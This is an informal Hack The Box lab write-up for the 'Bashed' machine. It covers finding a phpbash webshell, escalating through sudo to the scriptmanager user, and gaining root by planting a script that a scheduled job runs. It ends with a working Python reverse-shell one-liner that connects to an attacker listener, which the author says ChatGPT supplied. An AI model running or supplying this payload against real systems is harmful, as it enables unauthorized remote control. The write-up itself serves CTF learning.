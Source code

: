 Bahed - HTB Writeup 
[top]
The bashed was a simple the box that was already running a webshell then the privileges were escalated by python script.  
The nmap scan revealed the only port 80 with no ssh which is unsusual.
I opened the site at http and creator of the site has disclosed the information that he inicorporated phpbash ono this site.
So i fuzzed directories and appended phpbash.php and found its location at /dev. So there goes the user flag.
Then i attempted to get reverse shell to my own machine however using basic bash syntax didnt work for some reason.
Then chatgpt gave me this fuckass long python command to get reverse shell and it worked.
After running sudo -l i found out that i can become the scriptmanager user and run scripts with his priveleges.
So i became one.
Then i discovered scripts directory in root dir that is owned by the scriptmanager.
There was python program and file generated by this python program.
When i deleted this file it came back meaning that the python program was executed repeatedly.
So what i did was i created new python file where i inserted the fuckass long shell from earlier and BANG i got a neew session running as root.
echo 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.7",9002)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);' > execute.py
